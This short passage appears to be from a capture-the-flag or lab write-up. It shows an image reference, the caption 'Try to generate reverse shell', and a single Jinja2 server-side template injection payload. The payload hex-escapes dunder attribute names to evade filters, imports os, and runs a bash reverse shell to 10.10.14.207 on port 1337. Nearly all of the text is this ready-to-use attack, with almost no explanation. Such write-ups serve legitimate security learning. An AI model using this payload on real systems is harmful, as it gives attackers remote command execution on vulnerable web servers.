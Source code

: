 ![](./IMG/38.png)

> Try to generate reverse shell

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('/bin/bash+-c+"/bin/bash+-i+>%26+/dev/tcp/10.10.14.207/1337+0>%261"')|attr('read')()}}
```
